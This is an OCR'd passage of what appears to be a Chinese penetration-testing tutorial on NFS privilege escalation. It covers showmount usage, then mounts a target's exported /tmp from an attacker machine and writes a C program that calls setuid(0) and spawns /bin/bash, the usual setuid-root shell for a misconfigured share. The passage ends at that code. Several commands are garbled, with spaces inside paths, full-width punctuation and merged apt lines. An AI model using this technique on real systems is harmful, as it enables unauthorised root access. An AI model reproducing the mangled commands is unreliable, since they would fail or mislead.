 ## showmount —help

Usage: showmount [-adehv]

[`—all][—directories] [—exports]`

`[—no-headers][—help] [—version][host] -a或—all`

以 host:dir 这样的格式来显示客户主机名和挂载点目录。

> -d或—directories    仅显示被客户挂载的目录名。
>
> -e或—exports    显示NFS服务器的输出清单。
>
> -h或—help    显示帮助信息。
>
> -v或—version    显示版本信。
>
> —no-headers    禁止输出描述头部信息。显示NFS客户端信息 #

showmount 显示指定NFS服务器连接NFS客户端的信息

```
# showmount 192.168.1.1  #此ip为nfs服务器的 显示输出目录列表
# showmount -e 显示指定NFS服务器输出目录列表（也称为共享目录列表）
# showmount -e 192.168.1.1 显示被挂载的共享目录
# showmount -d   显示客户端信息和共享目录
# showmount -a 显示指定NFS服务器的客户端信息和共享目录
# showmount -a 192.168.1.1
```

这里不多说了

我们接下来在我们的攻击机上安装客户端工具

需要执行以下命令，安装nfs-common软件包。apt会自动安装`nfs-common`、rpcbind等12个软件包

`sudo apt install nfs-commonapt-get install cifs-utils`

**然后输入命令**

`showmount -e [IP地址]`

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmibQa6y3ibq2ATunV4ReRWUcuib6tf9UrtRoEiafoHKMNLTg83PHmT2t83rQ/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**创建目录以挂载远程系统。**

`mkdir / tmp / test`

**在\****/tmp/test**上装载**Remote/tmp***\*文件夹：**

`mount -o rw，vers = 2 [IP地址]：/ tmp / tmp / test`

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmibMEW7XagiaJPfyGiadhUXpqic1EvbmjVzIG7y2keJtmuzU6tzxqu1v4JQg/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**然后在/tmp/test/中。新建一个c文件。**

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h> int main() { setuid(0); system("/bin/bash"); return 0; }
```
